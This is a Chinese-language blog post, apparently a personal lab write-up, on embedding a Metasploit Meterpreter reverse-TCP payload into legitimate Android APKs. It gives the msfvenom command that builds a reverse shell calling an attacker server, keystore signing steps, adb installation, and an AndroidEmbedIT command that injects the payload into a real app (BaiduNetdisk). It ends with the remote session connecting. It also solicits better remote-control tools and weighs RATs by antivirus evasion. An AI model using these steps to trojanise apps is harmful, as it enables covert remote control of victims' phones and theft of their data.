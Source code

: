```yaml
---
layout:     post
title:      Meterpreter之Android APK嵌入攻击实验
date:       2018-12-15
author:     Wh0ale
header-img: img/wallhalla-36EDN6WhY0k.jpg
catalog: true
tags:
    - Meterpreter
    - 移动安全
---
```



大家有啥更好的apk远控方法可以一块来交流交流
目前我知道的就只有
①DroidJack 不免杀
②SpyNote 不免杀
③CS生成  这个还没试过
④meterpreter嵌入apk

这里我用的的工具是：https://github.com/yoda66/AndroidEmbedIT
用法很简单只有三个参数

在先知上看的那篇文章手动修改apk文件总是出错，我弄了一下午没成功，后面直接就用的这个工具。

总结步骤
1.在“apkmonk.com”或类似的镜像站点上查找现有的有趣APK应用程序。
2.生成Metasploit APK文件。
3.用“apktool”反汇编Metasploit APK文件，以及我们打算修改的APK文件。
4.将所有Meterpreter smali代码复制到新的APK smali目录。
5.通过查找具有以下行的intent-filter，在APK应用程序的AndroidManifest.xml文件中找到代码的入口点 ：
<action android:name="android.intent.action.MAIN"/>
包含此intent-filter的活动名称将是您要搜索的入口点。
6.修改活动“.smali”文件以包含启动Meterpreter阶段的行。
7.将Meterpreter AndroidManifest.xml中的所有Meterpreter权限复制到修改后的APK的- AndroidManifest.xml中。
8.重新组装成DEX压缩格式生成APK。
9.使用“jarsigner”为新创建的APK文件签名，然后将其加载到目标Android设备上。


①.这里我是用的是之前学习移动安全用的diva-beta.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=服务器IP LPORT 9000 -o /tmp/msf.apk

②.我在自己服务器上用meterpreter生成apk

③生成证书
keytool -genkey -v -keystore cowboys.keystore -alias cowboys -keyalg RSA -keysiz e 2048 -validity 10000
输入密钥库口令:
再次输入新口令:
您的名字与姓氏是什么?
​    [Unknown]:  Pentest
您的组织单位名称是什么?
​    [Unknown]:  Myself
您的组织名称是什么?
​    [Unknown]:  Myself
您所在的城市或区域名称是什么?
​    [Unknown]:  BeiJing
您所在的省/市/自治区名称是什么?
​    [Unknown]:  BeiJing
该单位的双字母国家/地区代码是什么?
​    [Unknown]:  CN
CN=Pentest, OU=Myself, O=Myself, L=BeiJing, ST=BeiJing, C=CN是否正确

④安装apk
adb connect 192.168.125.105
adb devices
这里无法上传的原因是之前我就有装过diva-beta.apk
然后顺便一提，这里连接不上adb的原因
命令行输入：adb connect 172.16.4.37:5555 (:5555可省略）
​    提示：unable to connect to 172.16.4.37:5555
​    解决办法：
​    1）手机与PC相连，执行以下命令：adb tcpip 5555
​      成功提示：restarting in TCP mode port 5555
​      如果手机没有和PC连接，直接使用以上命令会提示 error:device not found
​      然后断开USB
​    2）接着执行adb connect 172.16.4.37:5555，这时候应该就能连接成功了
​      成功提示：connected to 172.16.4.37:5555

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehopd3flj20e004ot95.jpg)

⑤使用脚本将msf.apk嵌入正常apk
python3 android_embedit.py -kp cowboys -kn cowboys -ks cowboys.keystore BaiduNetd isk_8.12.7.apk msf.apk
kp 指的是签名密钥
ks 为签名名称
ks 是keystore文件
生成效果大概是这样...我当时忘了截图

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehowxy46j21400cnq4x.jpg)

另外要提的是  当时我本来选定的apk是某云的，后来反编译的时候文件出错，一直没成功，弄了一下午就放弃了

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehp9x7r9j20p30gotay.jpg)

⑥安装apk
adb install final.apk

⑦meterpreter上线

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehpy5dwij20ig0exq4x.jpg)